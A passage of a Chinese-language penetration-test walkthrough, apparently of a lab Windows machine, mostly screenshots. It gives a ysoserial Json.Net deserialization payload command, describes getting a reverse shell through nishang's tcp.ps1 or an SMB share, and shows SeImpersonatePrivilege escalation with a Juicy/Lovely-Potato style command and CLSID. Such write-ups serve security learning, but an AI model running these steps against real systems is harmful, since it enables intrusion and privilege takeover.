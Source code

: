 ```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c ""
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1Kria9sOZweUr0QKg35jXVBz80Aw0LpOhqUf7lCib3cYOLRqzOV5KA0BNQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KRUpFmYGAH2z41uibEVnjycFibmYd2z8gDwXEdkzFk6puL2OPb0yia5Xjg/640?wx_fmt=png)

可以看到通过 powershell 成功上传了 nishang 的 tcp.ps1，获得了反弹 shell...

或者使用 smb 共享也可以..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KnceBfIDpaqtC05KM37HOLco3iahoIkvAjZbMLsztjZM9yeu7iaZe9jibg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KUOT2q5s5DrPnNmh9e0oDywicdjuf75s3NC2GViaxeKHS7V6c3z6dLicKA/640?wx_fmt=png)

获得了 user 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/vekKnDibcricu2UWZUgqzbqic9EBkejl6uTaAp9pZqTSiaibKPpbJamzHXyE2iapH87vjcQHV7hz25QFcBibaMpyadLqg/640?wx_fmt=png)

三、提权 root

![](https://mmbiz.qpic.cn/sz_mmbiz_png/4yo5kHOX9ibN8ibibPy7W2Hr5gIiaWyWEuIGKPDgfhHf0oA2dpjKy7LLyBHicoTtfRED9OyIK92hpd9GhGqx3iaLln2A/640?wx_fmt=png)

  

  

  

方法 1：

  

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KKZaj2TCvkh4Y02NRaIcwFODric2eEYD8RKWxQJICewmtUljYEAxn0fw/640?wx_fmt=png)  

SeImpersonatePrivilege：

可以利用 NTLM 中继到本地协商获得系统用户的令牌，可以使用开源工具 Lovely-Potato... 通过 WinAPI CreateProcessWithToken 创建新进程，引入系统用户的令牌具有 SeImpersonatePrivilege 权限，最后该令牌具有 system 权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KicS3uZVrfEFKiagY6ecvnGZmaSBIypXeqhUugRD6GNiaRBZ0ibibc8YNRibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KIqLBtQpJs7g8S7vr8Od5hr8T5ojbu7XMTozzW1qML7MApIQIWAKRrg/640?wx_fmt=png)

CLSID：

```
https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2012_Datacenter
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1K81BwCUeI2tj4o3tCb0ncVb0vIHrLdSiaicqfSmj2cDcYYhgjE8yrRf8Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOEPx72Rqtgj9Q9B4yN9Q1KGdvIZUkEo1knsrYJNXZepxuS2uJxVSlAKtia7qR3Xp4pZly5diazu7eQ/640?wx_fmt=png)

```
dayu.exe -t * -p dayu.bat -l 1337 -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```
